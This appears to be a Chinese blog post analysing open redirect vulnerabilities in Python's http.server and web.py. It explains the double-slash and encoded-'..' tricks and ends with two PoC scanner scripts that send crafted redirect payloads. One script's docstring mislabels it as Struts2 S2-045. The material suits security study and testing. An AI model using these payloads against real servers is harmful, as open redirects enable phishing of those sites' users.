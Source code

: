 Title:python http.server和web.py的URL跳转漏洞实践
Date: 2018-01-20 10:20
Category: python安全
Tags: python安全,URL redirect
Slug: 
Authors: bit4
Summary: 



看了[Phithon的文章](https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html) 分析了2个python的web服务器中的URL跳转漏洞，自己也尝试跟着思路理一理。

### 0x0、函数的本意

这个函数的本意是：

判断当前请求的url中的path（也就是本例中的“email”）是不是一个存在的路径，如果是则通过301重定向到

email/  这是其他web服务器都具有的一个正常操作。

```
http://127.0.0.1:8000/email
会自动跳转到
http://127.0.0.1:8000/email/
```

可以通过浏览器正常访问试一试，正常的web服务器都会这样跳转。

![本来的功能](img/http.server/正常的请求.png)

通过断点调试看到的信息（关于调试给SimpleHTTPServer.py下断点，方法和给自己的代码下断点一样，因为它里面直接有一个测试函数，可以直接运行SimpleHTTPServer.py来启动一个web服务器）：

![本来的功能](img/http.server/本来的功能.png)



### 0x1、单斜杠和双斜杠对于ulrparse.urlsplit()

从phithon的文章中可以看出，要实现URL的跳转的一个关键是浏览器把双斜杠后面的内容当作域名。

我们在burp中试试，发现能通过可以构造出带双斜杠的Location返回（如下图）。

![双斜杠的差异](img/http.server/双斜杠的差异.png)



继续在代码中加断点中看看，可以看出，当请求的url是单斜杠时（如上图下半部分），email是被认为是path，当是双斜杠时却被认为是netloc。个人认为这是http.server和其他web服务器所不同的地方（比如nginx，自己试过，访问http://www.code2sec.com/img  和访问http://www.code2sec.com//img 的结果都是一样的，说明这2个请求中，img都被认为是path）。

![yyy](img/http.server/yyy.png)

可以看出，关键是urlparse.urlsplit()函数导致的。

![urlsplit](img/http.server/urlsplit.png)

再验证一下上面提到的nginx中是否可以构造出带双斜杠的Location。结果表明不行，所以，这个漏洞之所以成立的一个前提条件就是：使用了urlparse.urlsplit()来解析path导致可以构造出双斜杠的Location返回，否则这个漏洞将不成立。（所以修复方案是否可以朝着这个思路来？）

![nginx](img/http.server/nginx.png)

### 0x2、为什么需要%2f..



```
如果是：
http://127.0.0.1:8000//example.com//..
最后的/..将被浏览器处理，根本发送不到服务器端，发送到服务端的请求将是（可以抓包验证一下），
http://127.0.0.1:8000//example.com/

想要发送到服务器端，就必须对/进行URL编码,即
http://127.0.0.1:8000//example.com/%2f..
```

而到了服务器端，这个`//example.com/%2f..`将被translate_path()函数处理，会先进行url解码然后转换为系统路径

![translatepath](img/http.server/translatepath.png)

解码后的内容为//example.com//.. 也就是当前路径了。

![translatepath1](img/http.server/translatepath1.png)



### 0x3、PoC脚本

以上基本理清了poc中的一些关键点，附上自动化检测脚本，可直接用于POC-T。

http.server open redirect的poc

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
paylaod: http://127.0.0.1:8000//example.com/%2f%2e%2e
测试状态：成功
'''

import requests
import urlparse
import sys

def poc(url):
    x = urlparse.urlparse(url)
    target = "{0}://{1}".format(x.scheme,x.netloc)

    payload = "{0}//example.com/%2f%2e%2e".format(target)

    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])
```

web.py open redirect的poc:

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
漏洞名称：Struts2漏洞S2-045
实验环境：VulApps/s/struts2/s2-045
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
测试状态：
'''

import requests
import urlparse
import sys
import urllib

'''
payload： http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
说明：根据p神的文章，是只有处理静态文件的代码是继承了SimpleHTTPRequestHandler类，才会受到影响
所以，这里的提供的url，最好是静态文件的url，比如 js、css、图片的完整url。
'''


'''
#
import web

urls = (
    '/(.*)', 'hello'
)
app = web.application(urls, globals())

class hello:
    def GET(self, name):
        if not name:
            name = 'World'
        return 'Hello, ' + name + '!'

if __name__ == "__main__":
    app.run()
'''


def poc(url):
    print("you should provide a static resoure url, like js|css|image")
    x = urlparse.urlparse(url)
    path_list = x.path.split("/")
    path_list.pop()
    path_list.remove("")
    path_list.append("")# list是有序的
    path= "%2f".join(path_list)
    #path = urllib.quote(path)
    #print(path)
    target = "{0}://{1}".format(x.scheme,x.netloc)
    #http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
    payload = "{0}////{1}@www.example.com/..%2f".format(target,path)
    print(payload)
    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])

```



参考：

https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html